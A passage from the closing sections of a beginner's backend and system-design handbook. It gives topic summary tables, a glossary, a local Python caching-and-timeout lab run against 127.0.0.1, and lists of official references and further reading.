| # | Topic | One-line summary |
|---|---|---|
| 25 | Timeouts | Never wait forever; a slow dependency must not freeze you |
| 26 | Retries | Try again on *transient* failures, only for idempotent operations, with limits |
| 27 | Exponential Backoff (& Jitter) | Wait longer after each failure, with randomness, so clients don't retry in sync |
| 28 | Circuit Breakers | Stop calling a failing dependency for a while; fail fast; probe to recover |
| 29 | Idempotency | Doing it twice has the same effect as once; idempotency keys prevent double charges |
| 30 | Backpressure | When consumers can't keep up, slow or reject producers instead of drowning |

**Part 5 — Async Messaging & Event-Driven Systems**

| # | Topic | One-line summary |
|---|---|---|
| 31 | Message Queues | A buffer where producers drop tasks and consumers process them later |
| 32 | Pub/Sub | One published message is delivered to many subscribers |
| 33 | Event-Driven Architecture | Services react to facts ("OrderPlaced") instead of calling each other directly |
| 34 | Dead Letter Queues | Where messages go after failing too many times, for inspection and replay |
| 35 | Cron Jobs | Tasks that run on a schedule; watch out for overlaps, time zones, and duplicates |
| 36 | Distributed Transactions | All-or-nothing across multiple systems (2PC); hard and slow; outbox pattern helps |
| 37 | Saga Pattern | A chain of local transactions with compensating "undo" steps |

**Part 6 — Caching**

| # | Topic | One-line summary |
|---|---|---|
| 38 | Caching | Keep frequently used data in fast storage; cache-aside is the default pattern |
| 39 | Cache Invalidation | Keeping caches from serving stale data: TTLs, delete-on-write, versioned keys, stampede protection |

**Part 7 — Databases**

| # | Topic | One-line summary |
|---|---|---|
| 40 | Database Indexing | A sorted lookup structure (usually a B-tree) that avoids scanning the whole table |
| 41 | Query Optimization | Use `EXPLAIN`, proper indexes, fewer columns/rows, keyset pagination |
| 42 | N+1 Queries | 1 query for a list + 1 per item; fix with joins, eager loading, or batching |
| 43 | Connection Pooling | Reuse a small set of open DB connections instead of opening one per request |
| 44 | Replication | Keep copies of data on several machines (leader-follower, multi-leader, leaderless) |
| 45 | Read Replicas | Read-only copies that absorb read traffic; beware replication lag |
| 46 | Partitioning | Split one big table into smaller pieces inside one database |
| 47 | Sharding | Split data across many database servers by a shard key |
| 48 | Database Migrations | Versioned, scripted schema changes; use expand-and-contract for zero downtime |
| 49 | Schema Versioning | Track schema versions and keep old/new app versions and event schemas compatible |

**Part 8 — Distributed Systems Theory**

| # | Topic | One-line summary |
|---|---|---|
| 50 | CAP Theorem | During a network partition you must choose consistency or availability |
| 51 | Eventual Consistency | Replicas may disagree briefly but converge if writes stop |
| 52 | Network Partitions | Machines are alive but can't talk to each other; leads to split brain without quorums |
| 53 | Clock Skew | Machines' clocks disagree; don't order events across machines by wall-clock time |
| 54 | Leader Election | Agree on exactly one leader (Raft, ZooKeeper, etcd leases) |
| 55 | Distributed Locks | Mutual exclusion across machines; needs TTLs and fencing tokens |

**Part 9 — Concurrency & Memory**

| # | Topic | One-line summary |
|---|---|---|
| 56 | Race Conditions | The result depends on unlucky timing between concurrent operations |
| 57 | Thread Safety | Code that stays correct when used by many threads at once |
| 58 | Optimistic Locking | Don't lock; check a version number at save time and retry on conflict |
| 59 | Pessimistic Locking | Lock the row first (`SELECT ... FOR UPDATE`), then change it |
| 60 | Deadlocks | Two parties each wait for a lock the other holds — forever |
| 61 | Memory Leaks | Memory that's no longer needed but never freed; grows until crash |
| 62 | Garbage Collection | Automatic memory cleanup; can cause pauses that hurt tail latency |

**Part 10 — Scaling & Cost**

| # | Topic | One-line summary |
|---|---|---|
| 63 | Vertical Scaling | Bigger machine; simple but has a ceiling and is a single point of failure |
| 64 | Horizontal Scaling | More machines behind a load balancer; needs stateless services |
| 65 | Autoscaling | Automatically add/remove capacity based on metrics |
| 66 | Cold Starts (Serverless) | The extra delay when a serverless function starts in a fresh environment |
| 67 | Serverless Limits | Max run time, memory, payload, concurrency — design around them |
| 68 | Cost Optimization | Right-size, commit, use spot, scale down, tier storage, watch egress |

**Part 11 — Containers, Infrastructure & Delivery**

| # | Topic | One-line summary |
|---|---|---|
| 69 | Docker | Package an app with everything it needs into an image that runs the same everywhere |
| 70 | Kubernetes | Runs, heals, scales, and connects containers across a cluster using desired state |
| 71 | Helm Charts | Templated, versioned packages of Kubernetes YAML |
| 72 | Infrastructure as Code | Define servers/networks in reviewed, versioned code instead of clicking |
| 73 | Terraform | Popular IaC tool: write HCL, `plan`, then `apply`; state tracks reality |
| 74 | CI/CD | Automatically build, test, and deploy every change |
| 75 | Build Caching | Reuse outputs (dependencies, layers, artifacts) to make builds fast |
| 76 | Dependency Hell | Conflicting/transitive versions and supply-chain risk; use lockfiles and update often |

**Part 12 — Release Strategies**

| # | Topic | One-line summary |
|---|---|---|
| 77 | Feature Flags | Turn features on/off at runtime without deploying |
| 78 | Rolling Deployments | Replace instances a few at a time |
| 79 | Blue-Green Deployment | Two full environments; switch traffic all at once; switch back to roll back |
| 80 | Canary Releases | Send a small % of traffic to the new version, watch metrics, then expand |
| 81 | Rollbacks | Quickly return to the last good version; plan for it before you deploy |

**Part 13 — Observability**

| # | Topic | One-line summary |
|---|---|---|
| 82 | Observability | Being able to ask new questions about your system from its outputs (logs, metrics, traces) |
| 83 | Logging | Timestamped records of events; make them structured and correlated |
| 84 | Metrics | Numbers over time (counters, gauges, histograms); cheap to store and alert on |
| 85 | Distributed Tracing | Follows one request across services as a tree of timed spans |
| 86 | Monitoring | Watching dashboards and checks to know the system's health |
| 87 | Alerts | Notify humans only for actionable, user-impacting problems |
| 88 | SLIs | The measured indicator of user happiness (e.g., % successful requests) |
| 89 | SLOs | The target for an SLI (e.g., 99.9% over 30 days) |
| 90 | Error Budgets | The allowed unreliability (100% − SLO) you can "spend" on change |

**Part 14 — Security**

| # | Topic | One-line summary |
|---|---|---|
| 91 | Secrets Management | Store, deliver, and rotate passwords/keys safely — never in code |
| 92 | IAM | Who can do what to which resource; least privilege |
| 93 | OAuth 2.0 (& OIDC) | Let apps act on your behalf without your password; OIDC adds login |
| 94 | JWT & Key Rotation | Signed (not encrypted) tokens; rotate signing keys using `kid` + JWKS |
| 95 | Encryption in Transit | TLS/mTLS for all network traffic, including internal |
| 96 | Encryption at Rest | Encrypt stored data; manage keys with KMS and envelope encryption |
| 97 | WAF | Filters malicious HTTP requests at layer 7 |
| 98 | DDoS Protection | Absorb and filter floods of traffic (anycast, scrubbing, rate limits) |
| 99 | CORS | Browser rules for which other origins may read your API's responses |
| 100 | CSRF | Tricking a logged-in browser into sending unwanted requests; use SameSite cookies + tokens |
| 101 | SQL Injection | User input changes your SQL; always use parameterized queries |
| 102 | XSS | Attacker's script runs in your users' browsers; escape output, use CSP |
| 103 | SSRF | Tricking your server into fetching internal URLs; allowlist and block private IPs |

**Part 15 — Reliability & Disaster Recovery**

| # | Topic | One-line summary |
|---|---|---|
| 104 | Backups | 3-2-1 copies, tested restores, point-in-time recovery |
| 105 | Disaster Recovery | Plan to recover from big failures; defined by RPO (data loss) and RTO (downtime) |
| 106 | Failover | Switching to a standby when the primary fails |
| 107 | Multi-Region Deployment | Run in several geographic regions for latency and resilience |
| 108 | Chaos Engineering | Break things on purpose, carefully, to find weaknesses first |

**Part 16 — Operations & Incident Response**

| # | Topic | One-line summary |
|---|---|---|
| 109 | Production Incidents | Detect, triage, mitigate, resolve, learn — with clear roles |
| 110 | On-Call | A rotation of engineers ready to respond to pages, with runbooks and sane alerting |
| 111 | Postmortems | Blameless write-ups that turn incidents into lasting improvements |

---

### 18.4 Glossary (Words You'll Hear Every Day)

| Term | Meaning |
|---|---|
| **ACID** | Atomicity, Consistency, Isolation, Durability — the guarantees of a database transaction |
| **Artifact** | The output of a build (e.g., a Docker image or a `.jar`) that gets deployed |
| **AZ** | Availability Zone — an isolated data center (or group) inside a cloud region |
| **Blast radius** | How much breaks when something fails; good designs keep it small |
| **Bottleneck** | The slowest part that limits the whole system |
| **Cardinality** | Number of distinct values (of a column or a metric label) |
| **Control plane / Data plane** | The part that configures the system vs. the part that handles actual traffic |
| **Egress / Ingress** | Data leaving / entering a network (cloud egress usually costs money) |
| **Fan-out** | One request or message triggering many others |
| **Graceful degradation** | Offering reduced functionality instead of failing completely |
| **Hot spot / hot key** | One shard, partition, or key receiving far more traffic than others |
| **Latency budget** | How much of the total allowed time each step may use |
| **Load shedding** | Deliberately rejecting some requests to protect the system under overload |
| **Monolith** | One deployable application containing all features |
| **Multi-tenant** | Many customers sharing the same system/infrastructure |
| **ORM** | Object-Relational Mapper — library mapping DB rows to objects (Django ORM, Hibernate, SQLAlchemy) |
| **PII** | Personally Identifiable Information — names, emails, phone numbers, etc. |
| **PoP** | Point of Presence — a CDN/edge location |
| **Quorum** | A required set or count of participants; consensus often uses a majority, while read/write quorums may use other thresholds |
| **Runbook** | Step-by-step instructions for handling a specific alert or task |
| **SDK** | Software Development Kit — a library for talking to a service |
| **SPOF** | Single Point of Failure |
| **Stateless / Stateful** | Whether a server keeps per-user data in its own memory between requests |
| **Throttling** | Slowing down or limiting requests (rate limiting is a form of it) |
| **Toil** | Repetitive manual operational work that should be automated |
| **VPC** | Virtual Private Cloud — your private network inside a cloud provider |
| **Zero trust** | Never trust a request just because it comes from "inside" the network |

---

### 18.5 Your First Local Lab (No Cloud Account)

**Goal:** make a tiny API, see a cache hit, observe a timeout, and verify a health check.
This lab needs only **Python 3.10+**, a text editor, two terminal windows, and optionally `curl`.
Get Python from <https://www.python.org/downloads/> if it is missing. On Windows, use `py` wherever
these instructions say `python3`, and `curl.exe` rather than a PowerShell `curl` alias.
Everything runs on your own computer; there are no paid services or API keys.

**What the code words mean:** `import` loads a library; `def` defines a reusable function; `if` makes a
decision; a dictionary such as `{"ok": True}` holds named values. `json.dumps` turns a Python value
into the JSON text an API sends. A **class** groups related behavior; here, `Handler` defines how to
answer an HTTP request. You do not need to memorise Python syntax to follow the experiment.

```mermaid
flowchart LR
    Curl["Browser or curl"] --> Server["Local Python API<br/>127.0.0.1:8765"]
    Server --> Cache{"Valid cached item list?"}
    Cache -->|"yes"| Hit["Return cached JSON"]
    Cache -->|"no"| DB[("Tiny SQLite database")]
    DB --> Fill["Cache for 10 seconds"]
    Fill --> Hit
```

**Step 1: create a folder** named `backend-first-lab` in a location you own. Open it in your editor.
Create a file named `server.py` and paste the complete code below. These tables live in memory and
reset when the process stops; this deliberately keeps the experiment disposable.

```python
import json
import sqlite3
import time
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlsplit

db = sqlite3.connect(":memory:")
db.execute("CREATE TABLE items (id INTEGER PRIMARY KEY, name TEXT NOT NULL)")
db.executemany("INSERT INTO items VALUES (?, ?)", [(1, "Tea"), (2, "Coffee")])
db.commit()
cache = {"expires_at": 0.0, "rows": []}


class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        path = urlsplit(self.path).path
        status = 200
        if path == "/health":
            body = {"ok": True}
        elif path == "/items":
            hit = time.monotonic() < cache["expires_at"]
            if not hit:
                time.sleep(0.2)  # Simulate expensive work, not SQLite's normal speed.
                cache["rows"] = db.execute("SELECT id, name FROM items ORDER BY id").fetchall()
                cache["expires_at"] = time.monotonic() + 10
            body = {"source": "cache" if hit else "database", "items": cache["rows"]}
        elif path == "/slow":
            time.sleep(2)
            body = {"message": "Finished after two seconds"}
        else:
            status, body = 404, {"error": "Route not found"}

        payload = json.dumps(body).encode("utf-8")
        try:
            self.send_response(status)
            self.send_header("Content-Type", "application/json")
            self.send_header("Content-Length", str(len(payload)))
            self.end_headers()
            self.wfile.write(payload)
        except (BrokenPipeError, ConnectionResetError):
            self.log_error("Client disconnected before the response was delivered")


if __name__ == "__main__":
    server = HTTPServer(("127.0.0.1", 8765), Handler)
    print("Open http://127.0.0.1:8765/items; press Ctrl+C to stop.", flush=True)
    try:
        server.serve_forever()
    except KeyboardInterrupt:
        print("\nStopping the local lab.", flush=True)
    finally:
        server.server_close()
        db.close()
```

**Step 2: start the server.** In a terminal opened in that folder, run:

```bash
python3 --version
python3 server.py
```

Keep that terminal open. If you get "address already in use", stop your previous lab with `Ctrl+C`
or choose a different unused port in the code and URLs. Do not stop an unfamiliar process.
The address `127.0.0.1` is **loopback**: the server is accessible only on this computer.

**Step 3: send requests from a second terminal.**

```bash
curl -i http://127.0.0.1:8765/health
curl -s -w "\nTotal seconds: %{time_total}\n" http://127.0.0.1:8765/items
curl -s -w "\nTotal seconds: %{time_total}\n" http://127.0.0.1:8765/items
curl -i http://127.0.0.1:8765/missing
curl --max-time 1 http://127.0.0.1:8765/slow
```

| Request | Expected observation | Concept |
|---|---|---|
| `/health` | `HTTP/1.0 200 OK` and `{"ok": true}` | HTTP response, basic health check |
| First `/items` | `"source": "database"`, items Tea and Coffee, at least roughly 0.2 seconds | Cache miss and database query |
| Second `/items`, within 10 seconds | `"source": "cache"`, same items, usually faster | Cache hit and TTL |
| `/items` after 10 seconds idle | `"source": "database"` again | Cache expiry |
| `/missing` | `404` and a JSON error | Explicit failure response |
| `/slow` with a one-second limit | `curl` exits with timeout code 28 | Client timeout does not cancel server work |

You can open `/health` and `/items` in a browser if `curl` is unavailable. Exact timings depend on
your computer. The important test is the **source changing from database to cache**, not a promised
number of milliseconds.

**Step 4: explain what you saw.**

1. Why was the second `/items` call faster? It skipped the simulated expensive work and SQL query.
2. Did the one-second timeout stop the server's two-second sleep? No. A caller giving up does not
   prove that a remote operation stopped; that is why retries and idempotency matter.
3. While `/slow` runs, can this server immediately answer `/health`? No. This example handles one
   request at a time. Concurrency helps, but threads sharing this cache or database would require a
   different connection strategy and synchronization; simply changing the server class is not enough.
4. Is `/health` a complete readiness check? No. It only demonstrates that the handler can respond.
   Real readiness must reflect whether the instance can serve its intended workload.
5. Is the cache shared with a second Python process? No. This illustrates why horizontal scaling can
   require an external cache and shared durable state.

**Step 5: stop cleanly** using `Ctrl+C` in the server terminal. Nothing was deployed to the cloud.
Keep this tiny program as your learning baseline; add complexity only when you can explain its purpose.
Python's `http.server` is a teaching tool here, not a production web server.

**Next experiments:** change the TTL to two seconds and predict the result; add a new read-only route;
log a request ID; compute latency percentiles from recorded durations; later replace the simulated
work with a real query plan experiment from Part 7. Make one change at a time.

---

### 18.6 Official References and Further Reading

Start with the handbook's explanation; open these when you want implementation details or need to
check a version-specific behavior. These are references, not extra prerequisites.

| Area | Official / primary reference | Why to consult it |
|---|---|---|
| HTTP semantics | [RFC 9110](https://www.rfc-editor.org/rfc/rfc9110.html) | Methods, status codes, safe and idempotent semantics |
| HTTP/2 and HTTP/3 | [RFC 9113](https://www.rfc-editor.org/rfc/rfc9113.html), [RFC 9114](https://www.rfc-editor.org/rfc/rfc9114.html) | Multiplexing, transport behavior, protocol details |
| Browser networking | [MDN HTTP](https://developer.mozilla.org/en-US/docs/Web/HTTP), [MDN CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS) | Headers, caching, and browser-enforced access |
| Idempotency | [Stripe API idempotent requests](https://docs.stripe.com/api/idempotent_requests) | Key retention, matching parameters, API-version-specific replay rules |
| Kubernetes | [Concepts](https://kubernetes.io/docs/concepts/), [probes](https://kubernetes.io/docs/concepts/configuration/liveness-readiness-startup-probes/), [CronJob limitations](https://kubernetes.io/docs/concepts/workloads/controllers/cron-jobs/#cron-job-limitations) | Readiness versus liveness and why schedules are not exactly once |
| Containers and charts | [Docker documentation](https://docs.docker.com/), [Helm documentation](https://helm.sh/docs/) | Images, build contexts, deployments, chart commands |
| Infrastructure as code | [Terraform documentation](https://developer.hashicorp.com/terraform/docs) | Providers, plans, state, locking, and sensitive state data |
| Continuous delivery | [GitHub Actions documentation](https://docs.github.com/en/actions) | Workflows, permissions, caching, and deployment environments |
| SQL performance | [PostgreSQL EXPLAIN](https://www.postgresql.org/docs/current/using-explain.html), [indexes](https://www.postgresql.org/docs/current/indexes.html) | Execution plans and when indexes help or hurt |
| SQL concurrency | [PostgreSQL concurrency control](https://www.postgresql.org/docs/current/mvcc.html) | Isolation, locks, deadlocks, and transaction retries |
| Read consistency | [DynamoDB consistency](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/HowItWorks.ReadConsistency.html) | Do not label every operation in a database simply CP or AP |
| Caches and leases | [Redis distributed locks](https://redis.io/docs/latest/develop/clients/patterns/distributed-locks/) | Lease assumptions and failure scenarios |
| Messaging | [RabbitMQ acknowledgements](https://www.rabbitmq.com/docs/confirms), [Kafka documentation](https://kafka.apache.org/documentation/) | Acknowledgement boundaries, offsets, delivery guarantees |
| RPC | [gRPC core concepts](https://grpc.io/docs/what-is-grpc/core-concepts/) | Methods, streaming, deadlines, cancellation |
| Observability | [OpenTelemetry concepts](https://opentelemetry.io/docs/concepts/), [Prometheus histograms](https://prometheus.io/docs/practices/histograms/) | Signals, context propagation, correct percentile aggregation |
| SRE | [Google SRE books](https://sre.google/books/), [service-level objectives](https://sre.google/sre-book/service-level-objectives/) | SLIs, SLOs, error budgets, alerting, on-call, and postmortems |
| Web security | [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/) | Defensive implementation guidance for XSS, CSRF, SSRF, SQL injection, and secrets |
| OAuth and JWT | [OAuth security best current practice](https://www.rfc-editor.org/rfc/rfc9700.html), [JWT best current practice](https://www.rfc-editor.org/rfc/rfc8725.html) | PKCE, redirect validation, token validation, and algorithm restrictions |
| Serverless | [AWS Lambda quotas](https://docs.aws.amazon.com/lambda/latest/dg/gettingstarted-limits.html) | Check current quotas instead of treating an example number as a universal limit |
| Diagrams | [Mermaid documentation](https://mermaid.js.org/) | Diagram syntax and renderer compatibility |

For real incident narratives mentioned in the handbook, read the organizations' own accounts:
[GitLab's 2017 database incident](https://about.gitlab.com/blog/postmortem-of-database-outage-of-january-31/),
[Cloudflare's July 2019 outage](https://blog.cloudflare.com/details-of-the-cloudflare-outage-on-july-2-2019/),
[GitHub's October 2018 incident analysis](https://github.blog/news-insights/company-news/oct21-post-incident-analysis/),
and [Meta's October 2021 outage explanation](https://engineering.fb.com/2021/10/05/networking-traffic/outage-details/).
They show how multiple individually reasonable decisions can combine into an outage.

### 18.7 Where to Go Next

| Resource | Why it's great |
|---|---|
| *Designing Data-Intensive Applications* — Martin Kleppmann | The best deep book on databases, replication, partitioning, consistency, streams |
| *Site Reliability Engineering* and *The Site Reliability Workbook* — Google (free online at sre.google) | SLOs, error budgets, on-call, postmortems, alerting from the people who coined SRE |
| *System Design Interview* (Vol. 1 & 2) — Alex Xu | Many worked designs (rate limiter, chat, news feed, URL shortener) |
| *Release It!* — Michael Nygard | Stability patterns: timeouts, circuit breakers, bulkheads — learned from real outages |
| The Twelve-Factor App (12factor.net) | Short guide to building cloud-friendly, stateless services |
| AWS Well-Architected Framework | Checklists for reliability, security, cost, performance |
| OWASP Top 10 and OWASP Cheat Sheet Series | The standard reference for web security mistakes and fixes |
| Kubernetes docs "Concepts" section, and the Terraform tutorials | Official, hands-on, and up to date |
| Engineering blogs: Netflix, Uber, Cloudflare, Stripe, Discord, Shopify, GitHub | Real problems, real numbers, real postmortems |

**🎯 Final advice:** You don't learn system design by memorising boxes. You learn it by asking, at every arrow,
*"what happens if this is slow, fails, runs twice, or gets 100× more traffic?"* — and knowing which topic from this
handbook answers that question.

**Happy building! 🚀**
